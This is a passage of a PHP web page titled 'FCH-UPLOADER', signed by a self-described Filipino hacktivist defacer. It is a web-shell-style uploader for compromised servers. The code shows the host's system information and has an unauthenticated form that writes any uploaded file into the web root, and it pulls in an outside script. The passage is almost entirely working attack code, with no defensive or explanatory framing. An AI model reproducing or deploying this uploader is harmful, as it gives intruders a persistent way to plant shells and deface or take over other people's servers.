 # FCH-UPLOADER
Simple Uploader
//Recode By Ph.T3X -Mr.w4x

//Greetz : - B4L1SON6 - MR.J4Y - Bisaya Cyber Army  - Philippines Cyber Mafia & All Member of FILIPINO CYBER HACKTIVIST

<html><title> mr.w4x Uploader </title>

<script src="http://e-mete.com/js/kdsnow.js"></script> <style> body{ background-image: url(); background-repeat: no-repeat; background-attachment: fixed; background-position: top; background-color:#000000; position: relative; background-size:100% 100vh; } .logo { width: 300px; height: 300px; margin: 0 auto; margin-top: 50px; -webkit-filter: drop-shadow(0px 0px 7px #0080FF); filter: drop-shadow(0px 0px 7px #0080FF); } .logo:hover{ width: 300px; height: 300px; -webkit-filter: drop-shadow(0px 0px 10px #0080FF); opacity:0.4; filter:alpha(opacity=40); transition: opacity .2s ease-out; -moz-transition: opacity .2s ease-out; -webkit-transition: opacity .2s ease-out; -o-transition: opacity .2s ease-out; }</style> 

<table width="100%" height="100%"><td align=center>

<br><table width="30%" height="30%"><td align=center><img src="https://i.top4top.io/p_2485jbis20.png" width="400" height="400"</img><br>

<font color="clay">

<?php

echo " MR.W4X - FILIPINO CYBER HACKTIVIST <br>";

echo "<b>".php_uname()."</b><br>";

echo "<form method='post' enctype='multipart/form-data'>

	  <input type='file' name='just_file'>

	  <input type='submit' name='upload' value='upload' <3'>

	  </form>";

$root = $_SERVER['DOCUMENT_ROOT'];

$files = $_FILES['just_file']['name'];

$dest = $root.'/'.$files;

if(isset($_POST['upload'])) {

	if(is_writable($root)) {

		if(@copy($_FILES['just_file']['tmp_name'], $dest)) {

			$web = "http://".$_SERVER['HTTP_HOST']."/";

			echo "sukses upload -> <a href='$web$files' target='_blank'><b><u>$web/$files?W00t</u></b></a>";

		} else {

			echo "fail upload di document root .";

		}
